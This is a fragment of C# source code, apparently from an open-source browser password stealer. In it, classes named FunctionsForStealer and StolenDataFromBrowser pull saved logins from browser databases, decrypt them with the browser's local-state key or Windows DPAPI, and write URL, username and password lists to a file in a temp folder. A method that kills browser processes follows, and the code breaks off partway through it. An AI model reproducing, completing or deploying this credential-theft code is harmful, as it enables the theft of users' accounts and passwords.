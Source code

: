 ```csharp
                                        string decryptedPassword = FunctionsForStealer.FunctionsForDecrypt.Decrypt(salt, localState, iv);

                                        if (!string.IsNullOrEmpty(decryptedPassword))
                                        {
                                            Variables.allFoundPasswords++;
                                            foundPasswordsThisBrowser++;
                                            passwords.Add(new StolenDataFromBrowser
                                            {
                                                url = sqliteDataReader["origin_url"].ToString(),
                                                username = sqliteDataReader["username_value"].ToString(),
                                                password = decryptedPassword
                                            });
                                        }
                                    }
                                    else
                                    {
                                        try
                                        {
                                            Encoding.UTF8.GetString(ProtectedData.Unprotect(encryptedPassword, null, DataProtectionScope.CurrentUser));
                                        }
                                        catch { }
                                    }
                                }
                            }
                        }

                        if (File.Exists(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt))
                        {
                            File.Delete(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt);
                        }

                        foreach (StolenDataFromBrowser password in passwords)
                        {
                            content += $"URL: {password.url}\r\nLogin: {password.username}\r\nPassword: {password.password}\r\n\r\n";
                            File.WriteAllText(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt, content);
                        }
                    }
                    isFoundBrowser = $"Found {nameBrowser}!";
                }
                catch (Exception ex)
                {
                    Console.WriteLine(ex.Message + " // " + nameBrowser);
                    isFoundBrowser = ex.Message;
                }
            }

            public static void ProcessBrowserKill(string nameBrowser)
            {
                try
                {
                    Process[] processes = Process.GetProcessesByName(nameBrowser);
                    if (processes.Length > 0)
                    {
                        foreach (Process process in processes)
                        {
                            process.Kill();
```